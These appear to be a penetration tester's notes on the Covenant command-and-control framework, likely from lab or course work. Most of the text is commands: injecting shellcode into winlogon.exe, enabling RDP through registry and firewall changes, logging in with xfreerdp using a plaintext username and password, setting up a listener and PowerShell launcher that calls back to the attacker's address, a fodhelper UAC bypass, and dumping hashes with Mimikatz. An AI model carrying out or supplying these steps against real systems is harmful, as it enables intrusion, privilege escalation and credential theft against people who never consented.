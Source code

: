 ```bash
	- In `Covenant` run:
		- `ps`
		- Find `winlogon.exe` and identify the PID
		- Go to `Launchers`
			- `ShellCode`
				- DotNetVersion: `Net40`
				- `Generate`
				- `Download`
		- `inject`
			- Enter the `winlogon.exe` PID
			- Add the recently generated shellcode *.bin* file
		- `Execute`
```
- Execute in `High` level grunt:
	- Enables *RDP* on Windows host
	- `powershell reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f; Enable-NetFirewallRule -DisplayGroup "Remote Desktop"`
- In terminal:
	- `xfreerdp /u:s.chisholm /p:'FallOutBoy1!' /v:192.168.3.4`
	- You will be prompted on Windows host to allow connection which, in turn, will disconnect the Windows host
- Disables *RDP* on Windows host
	- `powershell reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f; Disable-NetFirewallRule -DisplayGroup "Remote Desktop"`

### Dumping Hashes with Covenant and Mimikatz
- This requires a `High` level grunt
- Open a grunt with `Covenant`
	- [[Covenant Quick Shell on Windows Host]]
```bash
- Open `Covenant`
	- Set up a listener in `Listeners` tab
		- Name: `HTTP Listener`
		- ConnectAddress: `your-ip-address`
		- `Create`
	- Set up a launcher in `Launchers`
		- `PowerShell`
			- Listener: `HTTP Listener`
			- DotNetVersion: `Net40`
				- For a short link: `Net35` **Net35 is manditory when using `msiexec` and fodhelper i.e. `helper.ps1`**
			- KillDate: `some date in future`
			- `Generate`
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20221125031343.png)
```
- Paste the generated payload into the Windows host `powershell.exe` window
```
- Open a `High` level grunt
	- [[Fodhelper UAC Bypass with Covenant]]
```bash
- **High level privileges**
- Open `Coveneant`
- Start a shell on the Windows host
	- [[Covenant Quick Shell on Windows Host]]
- `powershellimport`
	- `helper.ps1`
- Ensure you using DotNetVersion: `Net35`
	- Copy the encoded payload
- `powershell helper -custom "cmd.exe /c enter_payload_here"`
- Elevate to: **System level privileges**
	- In `Covenant` run:
		- `ps`
```